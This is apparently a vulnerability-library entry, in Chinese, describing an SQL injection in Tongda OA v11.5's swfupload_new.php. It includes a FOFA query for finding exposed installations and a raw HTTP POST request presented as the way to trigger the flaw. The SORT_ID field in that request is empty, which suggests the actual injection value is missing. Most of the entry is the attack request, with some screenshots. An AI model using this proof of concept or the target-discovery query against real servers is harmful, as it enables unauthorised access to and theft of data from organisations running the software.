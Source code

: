 # 通达OA v11.5 swfupload_new.php SQL注入漏洞

## 漏洞描述

通达OA v11.5 swfupload_new.php 文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>通达OA v11.5</a-checkbox></br>

## FOFA

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628302741339-9c544321-2209-42e7-9401-d7959a3105fc.png)

发送请求包触发漏洞

```php
POST /general/file_folder/swfupload_new.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 355
Content-Type: multipart/form-data; boundary=----------GFioQpMK0vv2
Accept-Encoding: gzip

------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_ID"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_NAME"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="FILE_SORT"

2
------------GFioQpMK0vv2
Content-Disposition: form-data; name="SORT_ID"

------------GFioQpMK0vv2--
```

![img](../../../.vuepress/public/img/1628302774880-77e8dde6-9700-4b8c-aa80-d5eebd471398.png)



若有收获，就点个赞吧